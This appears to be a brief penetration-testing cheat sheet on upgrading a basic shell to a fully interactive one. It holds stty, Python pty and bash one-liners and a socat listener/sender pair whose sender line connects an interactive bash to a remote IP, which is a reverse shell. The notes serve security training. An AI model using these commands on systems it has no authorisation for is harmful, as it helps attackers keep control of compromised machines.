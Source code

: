 Upgrading a shell allows for command history and key bindings

# Guide

1. `cat /etc/shells` to see all the shells on the system
# Walkthrough 

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
2. [Upgrade Simple Shells to Fully Interactive TTYs | 0xffsec Handbook](https://0xffsec.com/handbook/shells/full-tty/)


# stty

Press `cntrl-z`

```sh
stty raw -echo && fg
```

```
reset
```
# Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```


# Bash 

```
/bin/bash -i
```

# SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```